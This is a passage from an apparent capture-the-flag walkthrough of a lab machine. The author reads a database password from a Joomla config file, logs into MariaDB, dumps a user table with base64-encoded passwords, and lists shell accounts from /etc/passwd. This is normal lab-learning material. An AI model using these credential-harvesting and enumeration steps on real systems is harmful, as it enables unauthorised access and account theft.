 ```bash
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'joomla';
        public $password = 'babyjoker';
        public $db = 'joomla_db';
```
There is a password for the database in here: `babyjoker`. Using the creds, log in and take a look.
```bash
www-data@glasgowsmile:/var/www/html/joomla$ mysql -u joomla -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 10723
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| batjoke            |
| information_schema |
| joomla_db          |
| mysql              |
| performance_schema |
+--------------------+
5 rows in set (0.006 sec)

MariaDB [(none)]> use batjoke; show tables;
+-------------------+
| Tables_in_batjoke |
+-------------------+
| equipment         |
| taskforce         |
+-------------------+
2 rows in set (0.001 sec)

MariaDB [batjoke]> select * from equipment; select * from taskforce;
Empty set (0.000 sec)

+----+---------+------------+---------+----------------------------------------------+
| id | type    | date       | name    | pswd                                         |
+----+---------+------------+---------+----------------------------------------------+
|  1 | Soldier | 2020-06-14 | Bane    | YmFuZWlzaGVyZQ==                             |
|  2 | Soldier | 2020-06-14 | Aaron   | YWFyb25pc2hlcmU=                             |
|  3 | Soldier | 2020-06-14 | Carnage | Y2FybmFnZWlzaGVyZQ==                         |
|  4 | Soldier | 2020-06-14 | buster  | YnVzdGVyaXNoZXJlZmY=                         |
|  6 | Soldier | 2020-06-14 | rob     | Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/ |
|  7 | Soldier | 2020-06-14 | aunt    | YXVudGlzIHRoZSBmdWNrIGhlcmU=                 |
+----+---------+------------+---------+----------------------------------------------+
6 rows in set (0.000 sec)
```
Exit and check out /etc/passwd real quick:
```bash
www-data@glasgowsmile:/var/www/html/joomla$ grep bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
rob:x:1000:1000:rob,,,:/home/rob:/bin/bash
abner:x:1001:1001:Abner,,,:/home/abner:/bin/bash
penguin:x:1002:1002:Penguin,,,:/home/penguin:/bin/bash
```